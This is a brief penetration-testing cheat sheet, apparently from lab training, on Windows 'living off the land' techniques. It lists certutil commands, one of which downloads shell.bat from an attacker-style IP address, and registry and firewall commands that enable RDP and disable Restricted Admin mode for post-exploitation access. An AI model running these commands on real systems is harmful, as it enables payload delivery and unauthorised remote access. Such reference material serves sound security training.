 # Living off the Land

## File Transfers

| **Command**                                                                   | **Description**             |
| ----------------------------------------------------------------------------- | --------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat` | Transfer file with certutil |
| `certutil -encode file1 encodedfile`                                          | Encode file with certutil   |
| `certutil -decode encodedfile file2`                                          | Decode file with certutil   |

***

## Enabling RDP (Requires local Administrator)

If you have control over a `local Administrator` account, you can enable RDP and use `xfreerdp` to perform `post-exploitation` in better conditions

To do so, follow these steps:

1. enable RDP: `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
2. enable RDP from the firewall config: `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`
3. disable the restricted admin mode: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

Then, login using: `xfreerdp /v:Target-IP /u:AdminUser /p:password`

